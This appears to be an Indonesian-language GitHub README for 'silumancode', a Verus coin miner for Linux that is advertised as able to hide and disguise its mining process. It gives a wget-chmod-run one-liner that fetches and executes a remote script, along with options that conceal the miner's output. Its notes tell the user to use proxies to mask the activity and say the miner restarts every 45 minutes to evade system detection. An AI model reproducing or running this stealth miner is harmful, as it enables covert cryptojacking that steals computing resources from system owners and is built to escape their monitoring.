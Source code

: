 # silumancode
miner verus coin yang mampu menyembunyikan dan menyamarkan proses mining di sistem linux
## install dependence :
 apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## Penggunaan
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh wallet.namaminer pool thread y/n
- Keterangan :
        1. wallet : alamat walet verus miner anda
        2. pool   : pool mining verus coin (usahakan menggunakan proxy)
        3. thread : jumlah thread processor yang akan digunakan (usakan tidak menggunakan thread maksimal yang tersedia)
        4. y/n    : opsi untuk menampilkan proses mining dari miner (y untuk menampilkan, no tidak menampilkan)
### example
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 n
![tampilan example](images/cmsil.png)
dan jika ingin menyembunyikan tampilan proses miner bisa menggunakan opsi (y) di akhir kode
### example II
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 y
![tampilan example II](images/cmsil2.png)
### Catatan Tambahan
1. gunakan proxy untuk memaksimalkan proses penyamaran proses mining
2. proses miner akan di restart setiap 45 menit (untuk menghindari deteksi system)
3. kode ini hanya sementara untuk penggunaan jangka panjang dan mining coin lain, bisa menghubungi contak wa : 
